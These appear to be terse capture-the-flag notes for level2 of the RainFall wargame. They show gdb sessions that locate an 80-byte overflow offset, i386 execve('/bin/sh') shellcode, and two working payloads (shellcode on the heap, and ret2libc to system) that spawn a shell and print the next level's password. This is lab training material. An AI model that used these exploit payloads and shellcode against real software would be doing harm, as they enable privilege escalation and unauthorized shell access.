 


first step checking if the binary vulnerable or not

python -c 'print "A" * 100' | ./level2
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

find where exactly does it crash

./pattern create 300
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9

SIGSEGV in 0xb7ea4478 in ??



run <<< $(python -c 'print ("-" * 80 + "AAAA")')

"\x08\x04\x84\xe2"[::-1]

$(python -c 'print "-" * 80 + "\x08\x04\x84\xe2"[::-1] ')

there is no system() therefore no shell to jump to

cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

Segmentation fault. 
0x61616175

unhex 61616175 | rev ; echo ""

uaaa

cyclic -l uaaa

80

manually calculating the distance between the buffer start address and the EIP

brek at  0x080484f2 <+30>:    mov    0x4(%ebp),%eax

 run <<< "AAAAAAAAAAAAAAAAAAAAAAAAAAAA"
 
info frame

eip at 0xbffff71c

(gdb) x/40wx $esp

0xbffff6b0:     0xbffff6cc      0x00000000      0x00000000      0xb7e5ec73

0xbffff6c0:     0x080482b5      0x00000000      0x00ca0000      0x41414141

(gdb) p/x 0xbffff6c0 + 12

$1 = 0xbffff6cc

(gdb) x 0xbffff6cc

0xbffff6cc:     0x41414141

(gdb) p/d 0xbffff71c - 0xbffff6cc. (also p/d $ebp+4 - (0xbffff6a0+12) )

$3 = 80

shellcraft i386.linux.sh

6a68682f2f2f73682f62696e89e368010101018134247269010131c9516a045901e15189e131d26a0b58cd80

python3 -c 'import struct; print(struct.pack(">L", 0x44840408))'


other method:

r <<< "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUU"

 SIGSEGV  0x55555555
 
 (gdb) p/c 0x55555555 = U

echo  "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTT" | wc

81 - 1 = 80


===

define hook-stop

echo "---------------------------- esp -------------"

x/40wx $esp

echo "---------------------------- eip instructions -------------"

x/2i $eip

end


===

shellcraft i386.linux.sh
 6a68682f2f2f73682f62696e89e368010101018134247269010131c9516a045901e15189e131d26a0b58cd80
 
 js
 
 '6a68682f2f2f73682f62696e89e368010101018134247269010131c9516a045901e15189e131d26a0b58cd80'.replace(/.{2}/g, '$&\/x')
 
 "/x6a/x68/x68/x2f/x2f/x2f/x73/x68/x2f/x62/x69/x6e/x89/xe3/x68/x01/x01/x01/x01/x81/x34/x24/x72/x69/x01/x01/x31/xc9/x51/x6a/x04/x59/x01/xe1/x51/x89/xe1/x31/xd2/x6a/x0b/x58/xcd/x80"

python3 -c 'print (len("\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"))'

21

80 - 21 = 59

level2@RainFall:~$ (python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "A" * 59 + "\x08\x04\xa0\x08"[::-1]'; cat) | ./level2

pwd

/home/user/level2

whoami

level3

cat /home/user/level3/.pass

492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02

how to get the heap addr : \x08\x04\xa0\x08

https://tc.gts3.org/cs6265/2019/tut/tut09-01-heap.html

 ltrace ./level2
 
 "pass a str" = = 0x0804a008 
 
 other method:
 
 smash the buffer to sigv by passin "a"s
 
 (gdb) info proc mappings
 
 heap addrs strat from  0x804a000 to 0x806b000
 
 examin 8 addr
 
 (gdb) x/8wx 0x804a000
 
0x804a000:      0x00000000      0x00000069      0x61616161      0x61616161

0x804a010:      0x61616161      0x61616161      0x61616161      0x61616161

first apperance of 'a' = 

(gdb) p/x 0x804a000 + 8 = 0x804a008
 
 
 
 =====
 
 ret2libc
 
 
 ret of p() func  0x0804853e to bypass check
 
 (gdb) p system ==> 0xb7e6b060
 
 (gdb) find system, +9999999, "/bin/sh" ==> 0xb7f8cc58
 
 system() needs a return value
 
 level2@RainFall:~$ python -c 'print "A" * 80 + "\x08\x04\x85\x3e"[::-1] + "\xb7\xe6\xb0\x60"[::-1] + "AAAA" + "\xb7\xf8\xcc\x58"[::-1] ' > /tmp/payload
 
 
 (cat /tmp/payload ; cat) | ./level2
 
 492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
 

